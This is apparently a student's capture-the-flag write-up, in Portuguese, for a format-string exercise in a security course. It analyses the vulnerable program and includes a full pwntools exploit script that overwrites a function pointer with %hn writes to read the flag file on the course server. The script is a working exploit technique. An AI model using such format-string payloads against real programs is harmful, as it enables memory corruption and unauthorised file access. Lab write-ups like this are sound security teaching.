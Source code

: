 

# CTF Semana 6 (Format Strings)


## Tarefas

### Analise do sistema

À semelhança do CTF anterior, começamos por executar o commando `checksec` de forma a identificar as proteções existentes e deste modo, ataques possíveis.


![exploit file](resources/CTF6/checksec.png)

### Análise do código source

De seguida, analisamos o código source de forma a percebermos melhor o seu funcionamento, respondendo às seguintes questões:


**Existe algum ficheiro que é aberto e lido pelo programa?** - Sim, a função `readtxt` é responsável pela leitura de um ficheiro passado como argumento. Esta função é chamada a partir do *function pointer*  `fun`.


**Existe alguma forma de controlar o ficheiro que é aberto?** - Sim, à semelhança do CTF anterior, se conseguirmos passar como argumento dessa função o buffer (que tem os conteúdos fornecidos pelo utilizador), conseguimos abrir qualquer ficheiro.

**Existe alguma format string? Se sim, em que é vulnerável e o que podes fazer?** - Sim, os conteúdos do buffer são escritos no terminal com a função `printf`. Com isto, torna-se possível passar várias _format strings_ `%x` ao buffer, de forma a alcançar um endereço específico escolhido pelo atacante.


## Execução do Ataque

De forma a tornar o ataque possível, a nossa ideia foi tentar executar a função `readtxt` e passar no parâmetro `name` a string `./flag`, com o objetivo de ler o ficheiro `flag.txt`. Percebemos que teriamos que alterar, à semelhança do CTF anterior, o valor da variável `fun`, para o da função `readtxt`. Sendo assim, adicionamos ao buffer o valor `./flag` (utilizado pela função `readtxt`) e o endereço da variável `fun` fornecida pelo programa no servidor. Assim, com a utilização de sucessivos `%x`, conseguiamos alcançar este valor, como estudado no **LOGBOOK6**, e alterar o seu conteúdo, usando `%n`.

### Forma rápida

Após realizarmos o ataque da forma mais simples, como realizado no **LOGBOOK6**, reparamos que, este demorava demasiado tempo a executar. Isto deve-se ao facto de o valor a ser escrito ser muito grande, e ter que se dar *print* de um número de caracteres igual ao pretendido. De forma a resolver este problema, optámos pela realização do ataque de uma forma ligeiramente diferente. Ao invés de utilizarmos `%n` e escrever os 4 bytes do endereço `readtxt` de uma só vez, utilizamos dois `%hn` de forma a escrever 2 bytes de cada vez.

Script Malicioso:

```python
#!/usr/bin/python3
from pwn import *

mode = input("Select run mode [r/l]: ") # correr localmente ou remotamente
if (mode== "r"):
    r = remote('ctf-fsi.fe.up.pt',4005)
    #r = remote('127.0.0.1', 4003)
else:
    r = process('./program')

size = 99
payload = bytearray(0x01 for i in range(size))


payload[0:6]= b"./flag" # inserir a flag no ínicio do buffer

funAddress1  = b"\x32\xe1\xbc\xff"
funAddress2 =  b"\x30\xe1\xbc\xff"

payload[8:12]  = funAddress1
payload[16:20] = funAddress2

#s = "%.8x" + "%.134518677x" + "%n" método mais lento, com bastantes prints (não utilizado)
#36769

s = "%.8x" + "%.2024x" + "%hn" + "%.36769x" +  "%hn" # método mais rápido

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
payload[20:20+len(fmt)] = fmt


context(arch='i386')

res = r.recvuntil(b"flag:\n")
print(res)
address = int(res.decode('utf-8').split("hint: ")[1][:8], 16) # dinamicamente obter o endereço de memória do fun
print(address)

payload[8:12]  = (address + 2).to_bytes(4, byteorder='little')
payload[16:20] = (address).to_bytes(4, byteorder='little')


r.sendline(payload)

buf = r.recvall().decode(errors="backslashreplace")
print(buf)
```

Execução do script:

![exploit execution](resources/CTF6/exploit_execution.png)

Podemos verificar que ao correr o script obtemos a `flag{L34k1ng_Fl4g_0ff_Th3_St4ck_44789C2D}`, demonstrando o sucesso do nosso ataque.
